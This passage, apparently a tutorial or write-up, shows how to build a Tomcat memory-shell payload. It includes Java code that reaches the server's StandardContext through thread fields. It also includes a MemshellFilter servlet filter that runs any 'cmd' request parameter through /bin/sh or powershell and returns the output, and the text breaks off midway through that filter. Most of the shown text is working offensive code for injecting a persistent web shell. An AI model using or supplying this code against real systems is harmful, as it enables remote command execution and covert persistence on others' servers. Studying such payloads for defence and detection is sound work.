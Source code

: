 Create a new evil class named `TomcatMemshellPayload` in the fundamental of `TomcatEchoPayload`. Reproduce the chain as following:
```java
public static StandardContext getStandardContext(Thread thread) {  
    try {  
        Object o = getFieldValue(thread, "contextClassLoader");  
        Object o1 = getFieldValue(o, "resources");  
        Object o2 = getFieldValue(o1, "context");  
        if (classNameContains(o2, "StandardContext")) {  
            return (StandardContext) o2;  
  
        }  
    } catch (Exception e) {  
        throw new RuntimeException(e);  
    }  
    return null;  
}
```

Define the filter class to inject:
```java
package filter;  
  
import javax.servlet.*;  
import java.io.File;  
import java.io.IOException;  
import java.io.InputStream;  
import java.io.InputStreamReader;  
import java.nio.charset.Charset;  
import java.util.Scanner;  
  
public class MemshellFilter implements Filter {  
    String defaultCharSet = "utf-8";  
    String cmdTemplate = "%s";//chcp 65001&  
  
    @Override  
    public void init(FilterConfig filterConfig) throws ServletException {  
  
    }  
  
    @Override  
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {  
        if (servletRequest.getParameter("cmd") != null) {  
            try {  
                String charSet = servletRequest.getParameter("charset");  
                if (charSet != null) {  
                    charSet = charSet.trim();  
                } else {  
                    charSet = new String();  
                }  
                String[] cmds = null;  
                if (File.separator.equals("/")) {  
                    cmds = new String[]{"/bin/sh", "-c", String.format(cmdTemplate, servletRequest.getParameter("cmd"))};  
                } else {  
                    cmds = new String[]{"powershell", "/C", String.format(cmdTemplate, servletRequest.getParameter("cmd"))};  
                }  
                InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();  
                InputStreamReader reader = new InputStreamReader(inputStream, charSet.isEmpty() ? Charset.forName(defaultCharSet) : Charset.forName(charSet));  
                Scanner scanner = new Scanner(reader).useDelimiter("\\A");  
                StringBuilder stringBuilder = new StringBuilder();  
                while (scanner.hasNextLine()) {  
```